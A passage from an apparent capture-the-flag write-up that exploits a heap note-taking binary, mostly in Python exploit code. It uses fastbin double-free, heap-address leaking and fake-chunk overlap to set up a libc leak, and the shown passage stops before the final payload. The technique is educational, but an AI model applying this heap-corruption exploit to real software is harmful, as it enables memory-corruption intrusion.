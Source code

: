 Now we have **2->4->1->fake\_chunk** , two more times **Add note** should give us our fake chunk for writing

```py
    add(0x10,'6666')
    #We get our overlapping chunk
    add(0x10,'a'*0x10 + p64(0) + p64(0xe0)) #Faking header's size to small bin
```

We finally can free our small bin chunk to get libc leak.

We have to recall that for free , the chunk which is next in memory should also be set appropriately, but here we have the top chunk and hence we face the **corrupted size or Double Free** SIGABART.

Ah Snap! , we have to modify our exploit a bit more to move forward , let us add 2 more chunks in the starting so that we dont face this issue.

```py
if __name__=="__main__":
    add(0x70,'0000')
    add(0x70,'1111')
    add(0x70,'2222')
    add(0x70,'3'*0x60 + p64(0) + p64(0x21)) #Contains our fake chunk
    add(0x90,'4444')
    add(0xd0,'5555')                        #This is to prevent errors in freeing the small bin
    
    free(1)
    free(2)          # 2->1
    free(0)          # 0->2->1

    #Add chunk number 6
    add(0x10,'\xf0') #which takes away 0th chunk for header and chunk 2 for note
    
    #Send chunk 6 to fastbin and thus get heap leak
    free(6)    # 6->1

    #Get heap Leak
    reu('will free: ')
    heap_base = u64(re(6) + '\x00'*2) - 0xf0
    log.info("heap @ " + hex(heap_base))

    #Now double free chunk 1
    free(1)         # 1->6->1

    #free another chunk to ensure that we get our chunk 1 as note and not the header
    free(3)         # 3->1->6->1 

    fake_chunk = heap_base + 0x270

    #Adding Chunk number 7
    add(0x10,p64(fake_chunk))   #This takes chunk 3 as header and chunk 1 taken as note , its fd overwritten with fake chunk , 
                                # 6->1->fake_chunk

    #Free Another chunk such that fake chunk is recieved as note and not as header
    free(2)    # 2->6->1->fake_chunk

    #Next add , chunk number 8, is just for removing 2 chunks from fastbin
    add(0x10,'8888') #chunk 8 , which takes chunk 2 as header and chunk 6 as its note, now fastbin is left with => 1->fake_chunk

    #We get our overlapping chunk
    add(0x10,p64(0) + p64(0xe1)) # chunk number 9, Faking header's size to small bin , chunk 1 taken as header and fake_chunk returned as overlapping chunk

    #Finally free our small bin to populate its fd and bk with libc
```